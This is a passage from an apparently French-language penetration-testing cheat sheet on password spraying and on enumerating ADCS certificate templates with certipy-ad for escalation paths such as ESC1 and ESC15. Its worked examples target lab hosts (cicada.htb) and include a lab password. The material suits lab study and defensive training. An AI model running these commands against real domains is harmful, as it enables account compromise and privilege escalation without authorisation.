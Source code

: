 Notes :

- `--no-bruteforce` teste chaque utilisateur avec le mot de passe spécifié, évitant le verrouillage des comptes.
    
- Créez machines.users avec les noms d’utilisateurs obtenus via `rpcclient` ou une autre méthode d’énumération.
    
- Soyez prudent avec le spraying pour éviter les verrouillages de compte (vérifiez la politique de verrouillage avec netexec `--pass-pol`).
    

---

### Exploitation des certificats ADCS

**Énumération des templates vulnérables**

- **Objectif** : Identifier les templates de certificats vulnérables (par exemple, `ESC1`, `ESC2`, `ESC3`, `ESC15`) pour exploiter des failles `ADCS`.
    
- **Outil** : `certipy-ad`.
    
- **Contexte** : Nécessite des identifiants valides pour interroger l’ADCS.
    

```bash
# Énumérer les templates vulnérables et sauvegarder la sortie
certipy-ad find -u <USERNAME>@<DOMAIN> -p '<PASSWORD>' -dc-ip <IP> -text -output <OUTPUT_FILE>
# Exemple :
certipy-ad find -u michael.wrightson@cicada.htb -p 'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.10.11.35 -text -output vulnerable_cicada_user.txt

# Sauvegarder dans un fichier avec tee
certipy-ad find -u <USERNAME>@<DOMAIN> -p '<PASSWORD>' -dc-ip <IP> | tee -a <OUTPUT_FILE>
# Exemple :
certipy-ad find -u michael.wrightson@cicada.htb -p 'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.10.11.35 | tee -a vuln.txt
```

Notes :

- Cherchez des templates avec `EnrolleeSuppliesSubject=True`, Client `Authentication=True`, ou` Schema Version=1` pour `ESC1`, `ESC3`, ou `ESC15`.
    
- Utilisez `-vulnerable` pour filtrer uniquement les templates exploitables :

    
    ```bash
    certipy-ad find -vulnerable -u michael.wrightson@cicada.htb -p 'Cicada$M6Corpb*@Lp#nZp!8' -dc-ip 10.10.11.35
    ```
    

**Demander un certificat malveillant (ESC15)**

- **Objectif** : Exploiter un template vulnérable à `ESC15` (`CVE-2024-49019`) pour obtenir un certificat avec un `UPN` privilégié (par exemple, `Administrator`).
    
- **Contexte** : Nécessite des droits d’enrollment sur un template avec `EnrolleeSuppliesSubject=True` et `Schema Version=1`.
    